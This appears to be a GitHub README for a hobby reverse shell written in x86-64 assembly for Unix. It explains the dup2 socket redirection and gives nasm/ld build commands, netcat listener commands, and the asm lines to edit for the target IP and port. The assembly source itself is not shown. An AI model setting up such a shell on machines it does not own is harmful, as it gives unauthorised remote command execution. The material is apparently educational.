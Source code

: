# assembly-Reverse-Shell
I created a simple reverse shell in assembly language for Unix systems.

The goal is to create a socket on PC1 and establish a connection to PC2. We will use the [dup2](https://man7.org/linux/man-pages/man2/dup2.2.html) syscall with the socket's file descriptor as the old file descriptor, and stdin, stdout, and stderr as the new file descriptors. This setup allows PC2 to execute commands on PC1.

# How to use it on your own pc

Compile reverse_shell.s with `nasm -f elf64 reverse_shell.s -o reverse_shell.o` and `ld reverse_shell.o -o reverse_shell`

Now open two terminals, do `nc -l 6969` to TERM1 and `./reverse_shell` to TERM2.

You can now do commands from TERM1 to TERM2!

# How to use it with two pc on the same network
Convert PC1's ip and port to little-endian format.

Replace the information on lines 18 and 19 in your assembly file:
```asm
at sin_port,    dw 0x391B
at sin_addr,    dd 0x100007f
```
Open netcat on PC1 with `nc -l <PORT>`

Launch binary on PC2 with `./reverse_shell`

PC1 can now exec commands on PC2!
